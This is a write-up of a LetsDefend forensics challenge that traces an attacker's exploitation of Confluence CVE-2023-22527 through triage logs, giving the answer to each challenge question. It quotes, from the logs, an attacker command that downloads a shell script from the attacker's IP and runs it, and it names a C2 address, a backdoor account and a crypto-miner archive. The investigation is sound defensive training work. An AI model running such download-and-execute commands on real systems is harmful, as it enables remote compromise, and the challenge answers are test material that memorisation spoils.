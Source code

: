 # [LetsDefend - Confluence CVE-2023-22527](https://app.letsdefend.io/challenge/confluence-cve-2023-22527)
Created: 19/06/2024 15:38
Last Updated: 19/06/2024 17:20
* * *
<div align=center>

**Confluence CVE-2023-22527**
![84004c7a69c89b8da0a3ab8ea9598be6.png](/resources/84004c7a69c89b8da0a3ab8ea9598be6-1.png)
</div>

Confluence is used by many organizations. Our organization was recently targeted and we need your expertise to help us recover from this incident. Our defense tools raised an alert about a crypto miner tool in the Confluence related directory, which led sysadmins to believe that this incident was initiated from Confluence.

You are given a triage archive image, collected via UAC(unix-like artifact collector) tool.

**File Location**: /root/Desktop/ChallengeFile/uac-ip-172-31-35-28-linux-20240125122358.zip

* * *
## Start Investigation

CVE-2023-22527 is Server Template Injection Vulnerability that resulted in Unauthenticate Remote Code Execution at `/template/xhtml/pagelist.vm` endpoint, you can read about this [vulnerability](https://www.trendmicro.com/en_th/research/24/b/unveiling-atlassian-confluence-vulnerability-cve-2023-22527--und.html) here

>What is the URI path which is vulnerable to the CVE?

![49de9e7cc880f85bdf88a1d68f1cc506.png](/resources/49de9e7cc880f85bdf88a1d68f1cc506.png)

UAC stores files from system within `[root]` directory

![5bcc47e640c08156d78cd85600c88be2.png](/resources/5bcc47e640c08156d78cd85600c88be2.png)

Then we can find confluence log using `find . -type f -name "*access*"` and the one we're going to investigate is `/opt/confluence/logs/conf_access_log.2024-01-25.log`

![94e18484fb1e8d4ae5d8e8245d09e49e.png](/resources/94e18484fb1e8d4ae5d8e8245d09e49e.png)

and we can see that this familiar endpoint was exploited, now we got an user-agent of an attacker and his IP address

```
/template/aui/text-inline.vm
```

>When did the attacker first exploit this vulnerability? (Answer Format: YYYY-MM-DD HH:MM:SS)

![ec7fb66fd46ad756c015635b84904440.png](/resources/ec7fb66fd46ad756c015635b84904440.png)

Using an attacker IP address to filter for all traffics coming from this IP address and the first record is the one we're looking for 

```
2024-01-25 11:41:26
```

>What is the attacker's remote IP Address?
```
3.110.176.89
```

>Analyze the Sysmon for Linux logs and identify the first command executed by the attacker.

![81da97ded9f5bd17363f891046460e7b.png](/resources/81da97ded9f5bd17363f891046460e7b.png)

Go to  `/[root]/var/log` and use `grep "confluence" syslog > confluence.txt && head confluence.txt` to find all activities from "confluence" user that was logged in `syslog` which you can see that the first command that was executed is `id` 

```
id
```

>What time did the attacker first enumerate directories on the compromised system? (Answer Format: YYYY-MM-DD HH:MM:SS)

![a9e10c387348432dc79ec09c7e6153c6.png](/resources/a9e10c387348432dc79ec09c7e6153c6.png)

Investigate text file that was created from previous question and you can see that `ls -la` (listing directory) was executed after the first command by 2 minutes

```
2024-01-25 11:43:33
```

>The attacker tried to execute remote commands to get a more stable shell, but apparently failed many times. Analyzing the Confluence log sources, can you find the command he/she executed around 2024-01-25 11:50:50 that errored out?

![35416b3cb7d688dbf754f5875c53042f.png](/resources/35416b3cb7d688dbf754f5875c53042f.png)

Go to `/[root]/var/confluence-home/logs` and you can see that there are several log files here but the one that we're going to use is `atlassian-confluence.log`

![757506303bca9a2125d23b51ce38f9d3.png](/resources/757506303bca9a2125d23b51ce38f9d3.png)

Then we can use `grep "11:50:50" atlassian-confluence.log` to find which command was sent to be executed at the time.

```
wget http://3.110.176.89/lin/6730789213.sh;chmod  x 6730789213.sh; bash 6730789213.sh
```

>User agents are a useful source of information and can be used for analysis. What user agent was the attacker using?

![c4aa2c61e64dac59b1e82bf296ba7cb4.png](/resources/c4aa2c61e64dac59b1e82bf296ba7cb4.png)
```
python-requests/2.28.2
```

>It appears that the attacker was able to download a bash script and then execute it to get a stable shell. What is the full path of this file? (Answer Format: /path/file.extension)

![31274f7b6f5134819f60d485a7b23795.png](/resources/31274f7b6f5134819f60d485a7b23795.png)

I searched shell script extension on `syslog` and found that it was downloaded using curl and saved to `tmp` directory

![c770e76b5ccc03ada9ecd1ad757027f9.png](/resources/c770e76b5ccc03ada9ecd1ad757027f9.png)

Other way to find this is to read content of `/live_response/process/pstree_-a.txt` 

```
/tmp/xxx.sh
```

>What is the size in bytes of the bash file detected earlier?

![2b65f117b4b50bbf7f751fca86a90b37.png](/resources/2b65f117b4b50bbf7f751fca86a90b37.png)

We couldn't get file size from a file itself

![111b4a0312607dee5d08ade96b6cc48b.png](/resources/111b4a0312607dee5d08ade96b6cc48b.png)

But we need to use `grep "xxx" /bodyfile/bodyfile.txt` to get file size that was logged using UAC

```
68855
```

>Analyzing the network connections from the triage output, what is the C2 IP address and port that the attacker connected to? (Answer Format: IP:PORT)

![d96db4e1a00b3333a3bef549813f0fe0.png](/resources/d96db4e1a00b3333a3bef549813f0fe0.png)

Read content of `xxx.sh` then we will see which port that was used to connect to an attacker listener port

```
3.110.176.89:1200
```

>What is the SHA1 hash of the bash script found in Question 8?

![6c6dffa35824ff1579bc3c4ff3403142.png](/resources/6c6dffa35824ff1579bc3c4ff3403142.png)

Easily obtain by using `sha1sum xxx.sh`

```
9ac4d3459093aac9ee4bb3b87fdeaaaa3c5bd551
```

>Attackers create new privileged user accounts for backdoor access. What is the username of the backdoor account created by the attacker?

![7a68083c7f90c3e7793adfde02080bc1.png](/resources/7a68083c7f90c3e7793adfde02080bc1.png)

Go to `[root]/var/log/` then we will use `grep "useradd" auth.log` to find all activities from `useradd` binary

```
confluence_servcie
```

>When was this backdoor account created? (Answer Format: YYYY-MM-DD HH:MM:SS)
```
2024-01-25 12:15:42
```

>The attacker downloaded a miner tool before being detected. What is the full path of this miner archive file?

![e025aedcd0a50dc7806f6530442f068d.png](/resources/e025aedcd0a50dc7806f6530442f068d.png)

We know that an attacker used either `curl` or `wget` to download file so I used `grep "root" syslog | grep "wget"` to get this answer

```
/opt/confluence/xmrig-6.16.4-linux-static-x64.tar.gz
```

* * *
## Summary

On this challenge, we investigated confluence logs and syslog to determine source of attacks and how an attackers got reverse shell connection to infected IP address 

<div align=center>

![f450d57da6ef1cbc644b3f750a638333.png](/resources/f450d57da6ef1cbc644b3f750a638333.png)
</div>

* * *
